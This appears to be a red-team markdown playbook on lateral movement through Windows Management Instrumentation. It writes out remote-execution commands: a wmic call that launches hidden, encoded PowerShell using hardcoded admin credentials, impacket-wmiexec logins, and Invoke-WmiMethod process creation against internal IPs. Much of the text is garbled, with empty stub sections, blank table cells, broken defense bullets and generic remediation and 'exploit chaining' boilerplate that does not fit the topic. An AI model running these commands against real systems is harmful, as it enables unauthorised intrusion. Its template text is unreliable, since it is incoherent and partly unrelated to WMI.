

# Windows Management Instrumentation (WMI) Execution

## When to Use
- When conducting Red Team operations and requiring remote Workflow

### Phase 1: Understanding WMI (The Concept)

```text
# Concept: ```

### Phase 2: Remote Code Execution via WMIC (Built-in Binary)

```bash
# Concept: 1. Execute a command on a remote system wmic /node:10.0.0.100 /user:CORP\Admin /password:Spring2023! process call create "cmd.exe /c powershell.exe -nop -w hidden -enc JABzAD0ATg..."

# 2. Key Benefit ```

### Phase 3: Interactive WMI Shell (Impacket-Wmiexec)

```bash
# Concept: 1. Connect impacket-wmiexec CORP/Admin:'Spring2023!'@10.0.0.100

# 2. Explore ```

### Phase 4: WMI via PowerShell (CIM Cmdlets)

```powershell
# Concept: 1. Execute Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList 'cmd.exe /c calc.exe' -ComputerName 10.0.0.100
```

#### Decision Point 🔀



## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## 🔵 Blue Team Detection & Defense
- **Audit seamlessly WMI **Enable **Network Key Concepts
| Concept | Description |
|---------|-------------|
| WMI | |
| DCOM | |
| Impacket | |

## Output Format
```
Red Team Execution Protocol: WMI Lateral Movement ==================================================
Target Infrastructure: `FileServer-01`
Vulnerability: Administrative Credentials Compromised
Severity: High (CVSS 7.5)

Description:
```bash
impacket-wmiexec CORP/ServiceAccount:'Pa$$w0rd'@10.0.1.50
```

Impact ```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## 🛡️ Remediation & Mitigation Strategy
- **Input Validation:** Sanitize and strictly type-check all inputs.
- **Least Privilege:** Constrain component execution bounds.

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

## References
- Mitre ATT&CK: [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)
- Impacket WMIExec: [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)
- FireEye: [WMI Obfuscation and Defense](https://www.mandiant.com/resources/windows-management-instrumentation-wmi-offense-defense-and-forensics)
